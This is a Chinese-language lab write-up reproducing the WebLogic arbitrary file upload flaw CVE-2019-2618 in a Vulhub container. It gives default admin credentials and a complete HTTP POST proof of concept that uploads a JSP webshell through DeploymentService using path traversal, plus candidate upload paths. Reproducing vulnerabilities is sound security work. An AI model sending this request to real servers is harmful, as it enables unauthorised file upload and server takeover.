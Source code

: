 # WebLogic任意文件上传漏洞(CVE-2019-2618)

## 0x01 漏洞描述

*漏洞介绍*

CVE-2019-2618漏洞主要是利用了WebLogic组件中的DeploymentService接口，该接口支持向服务器上传任意文件。攻击者突破了OAM（Oracle Access Management）认证，设置wl_request_type参数为app_upload，构造文件上传格式的POST请求包，上传jsp木马文件，进而可以获得整个服务器的权限。

*影响版本*

WebLogic 10.3.6.0、12.1.3.0、12.2.1.3

## 0x01 搭建漏洞环境


利用[Vulhub](https://github.com/vulhub/vulhub)里的`weblogic/CVE-2017-10271`的weblogic版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

我们可以先进入容器内部
```
[root@localhost CVE-2017-10271]# docker ps
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                              NAMES
dc73ec08c629        vulhub/weblogic     "startWebLogic.sh"   13 minutes ago      Up 13 minutes       5556/tcp, 0.0.0.0:7001->7001/tcp   cve-2017-10271_weblogic_1_e0c10faa85da
[root@localhost CVE-2017-10271]# docker exec -it dc73ec08c629 /bin/bash
root@dc73ec08c629:~/Oracle/Middleware# 
```

## 0x02 漏洞复现

漏洞前提是需要先获取`weblogic`的账号密码。可以爆破密码或者尝试默认账号密码(比较鸡肋)
`weblogic/weblogic`
`weblogic/Oracle@123`

POC为：
```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 172.16.200.221:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
username: weblogic
wl_request_type: app_upload
cache-control: no-cache
wl_upload_application_name: ../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
serverName: zhengjim
password: Oracle@123
content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
archive: true
server_version: 10.3.6.0
wl_upload_delta: true
Content-Length: 238

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="shell.jsp"; filename="shell.jsp"
Content-Type: false

<%
	String str="{0}";
        out.print("123456"); 
%>

------WebKitFormBoundary7MA4YWxkTrZu0gW--
```


发送数据包 ，返回了上传文件的地址 

![](./img/1.png)

去访问发现执行成功

![](./img/2.png)


复现成功

上传目录可以多尝试几个
```
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
bea_wls_internal 
bea_wls_deployment_internal 在同目录
这是漏洞war位置
```



## 漏洞修复

Oracle官方已经在关键补丁更新（CPU）中修复了该漏洞

## 参考文献

1. https://github.com/jas502n/cve-2019-2618
2. http://sec.sangfor.com.cn/events/229.html
3. https://www.oracle.com/technetwork/security-advisory/cpuapr2019-5072813.html
